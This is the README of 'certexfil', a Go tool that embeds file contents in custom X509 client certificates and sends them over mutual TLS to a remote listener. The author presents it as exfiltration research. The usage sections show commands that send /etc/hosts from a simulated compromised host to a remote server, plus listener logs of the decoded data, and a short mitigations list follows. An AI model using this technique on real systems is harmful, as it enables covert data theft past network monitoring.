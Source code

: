# Exfiltration fun using X509 digital certificates

## Overview

I spend a ton of time on exfiltration topics and mitigation techniques. This is my very first attempt to try to learn Go by having a quick way to convert a payload (reading a file) and building it as part as a custom x509 digital certificate.

More info at https://medium.com/@jeanmichel.amblat/abusing-certificates-for-data-exfiltration-d6bff2533cd0

If you new to playing with certs, you will find the following interesting links that inspired me (must read first):

* https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401
* https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go
* https://tools.ietf.org/html/draft-ietf-oauth-mtls-14

Certexfil has three modes: CA generation, client and listener:

* You can use --ca to bootstrap and set a CA to create certificates (and authenticate them later)
* You can use --payload embed a payload (file) into a new client certificate then use mTLS against a listener service
* You can use --listen to start aservice using a certificate to accept valid mTLS clients and retrieve the embedded payload

## Usage

### Create CA + prepare your listener on your remote server

This is to create server_cert.pem and server_key.pem certificates to be used for mTLS (client and listener will use those:

```
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Now make sure your have binary certexfil and the new ./CERTS directory on your remote server. Then, run the mTLS listener:

```
remoteserver$ ./certexfil --listen
```

### Client or (simulated) compromised host

Passing an output as payload:

```
06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo
```

Passing a file as payload:
```
06:52:14 jma@wintermute Go-Workspace → certexfil --host remote.server.com --payload /etc/hosts
2019/05/31 18:52:23 [*] Reading from file..
2019/05/31 18:52:24 [D] Payload (raw)  --> 127.0.0.1	...(225 bytes)
2019/05/31 18:52:24 [D] Payload (Prepare()) --> �...		(173 bytes)
2019/05/31 18:52:24 [*] Generated custom cert with payload
Oo

```


### As seen on the listener

```
○ → ./certexfil --listen
2019/05/31 22:51:01 [*] Starting listener..
2019/05/31 22:51:7 [*] Payload received: H4sIAAAAAAAC/yo3MChRABGAAAAA//8t0rpUCQAAAA==
2019/05/31 22:51:07 [*] Payload decoded: w00t w00t

2019/05/31 22:52:24 [*] Payload received: H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8KEHIodqV0LnC+PAZzNb2h5LIzR0Cbk4f9Xs28pj9bdhUeljFHHS8QqvD9wcZZrLujDs3nfMptbopgm5B37L5a0ViwsXgEAAP//pJPCNuEAAAA=
2019/05/31 22:52:24 [*] Payload decoded: 127.0.0.1	localhost
127.0.1.1	wintermute

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## Mitigations

* Fresh certificates ? you should look for those
* Large payload vs average certificates from same client (a decent firewall or BroIDS should be able to help)

## Todo

* Peer-review from a real Go developper.. I should stick to Python, I know.
* ~~Set a DEBUG option, clean code~~
* ~~merge client/listener in one~~
* automatic deployment of generated certs (DNS TXT? :P)
* Actually have crypto in cryptopayload module

## Contact

* @Sourcefrenchy
